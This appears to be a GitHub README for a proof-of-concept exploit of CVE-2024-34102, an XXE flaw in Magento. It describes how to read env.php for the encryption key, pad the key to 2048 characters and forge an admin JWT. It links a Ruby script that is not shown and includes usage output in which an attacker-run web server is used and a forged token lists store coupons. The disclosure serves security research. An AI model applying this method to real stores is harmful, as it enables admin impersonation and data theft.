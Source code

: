 # CVE-2024-34102: Magento admin user impersonation via arbitrary file read

## Information  

**Vendor Description**: Adobe Commerce and Magento Open Source are affected by an Improper Restriction of XML External Entity Reference ('XXE') vulnerability that could result in arbitrary code execution. An attacker could exploit this vulnerability by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction.   
**Versions Affected**: Adobe Commerce and Magento Open Source 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8 and earlier.   
**Researcher:** [Sergey Temnikov](https://github.com/spacewasp)   
**Write-up Link:** Coming soon  
**NIST CVE Link:** https://www.cve.org/CVERecord?id=CVE-2024-34102  


The security flaw arises from improperly handling nested deserialization in Adobe Commerce and Magento. This vulnerability allows attackers to exploit XML External Entities (XXE) during deserialization. In essence, attackers can craft malicious JSON payloads that instantiate objects with unintended properties or behaviors when deserialized by the application ([source](https://github.com/spacewasp/public_docs/blob/main/CVE-2024-34102.md)).

In his write-up, [Sergey Temnikov](https://github.com/spacewasp) suggested that this vulnerability could be chained with CVE-2024-2961 to achieve remote code execution. He also proposed using this vulnerability to read the `env.php` file and obtain the encryption key, which would allow generating a JWT token to impersonate an admin user.

However, the available exploits and write-ups we have found only cover the basic arbitrary file read vector. Therefore, we decided to go beyond that and demonstrate how to use the CVE-2024-34102 to impersonate an admin user.

### Token generation

Plenty of write-ups about the vulnerability itself are available, so we will skip the details and focus on what those write-ups lack: token generation.

After reading the `env.php` file and obtaining the encryption `'crypt' => [ 'key' => ...`, we immediately tried to generate a token, but it didn't work. The token was invalid. That's because, in Magento, the key must be 2048 characters long; if it is not, padding will be applied. 

```php
   public function __construct(DeploymentConfig $deploymentConfig, JwkFactory $jwkFactory)
    {
        $this->keys = preg_split('/\s+/s', trim((string)$deploymentConfig->get('crypt/key')));
        //Making sure keys are large enough.
        foreach ($this->keys as &$key) {
            $key = str_pad($key, 2048, '&', STR_PAD_BOTH);
        }
        $this->jwkFactory = $jwkFactory;
    }
```
<!----><div align="center">
([source](https://github.com/magento/magento2/blob/2.4-develop/app/code/Magento/JwtUserToken/Model/SecretBasedJwksFactory.php#L39-L41))
</div>

### Exploit

We have created a script that reads the `env.php` file, extracts the encryption key, and generates a JWT token to impersonate an admin user. The script is available [here](./exploit.rb).

### Usage

```bash
$ ruby exploit.rb http://localhost http://host.docker.internal:8000
Starting web server...
Generated JWT: eyJraWQiOiIxIiwiYWxnIjoiSFMyNTYifQ.eyJ1aWQiOjIsInV0eXBpZCI6MiwiaWF0IjoxN....
Sending request with JWT to coupons endpoint
Available coupons:
{
  "items": [
    {
      "coupon_id": 2,
      "rule_id": 2,
      "code": "100OFF",
      "usage_limit": 1000,
      "usage_per_customer": 1000,
      "times_used": 0,
      "is_primary": true,
      "created_at": "2024-07-21 18:14:43",
      "type": 0
    }
  ],
  "search_criteria": {
    "filter_groups": [

    ]
  },
  "total_count": 1
}
Exploit completed
```

### Tested on

```
root@ab0b1ad4d8a8:/bitnami/magento/bin# ./magento --version
Magento CLI 2.4.7
root@ab0b1ad4d8a8:/bitnami/magento/bin#
```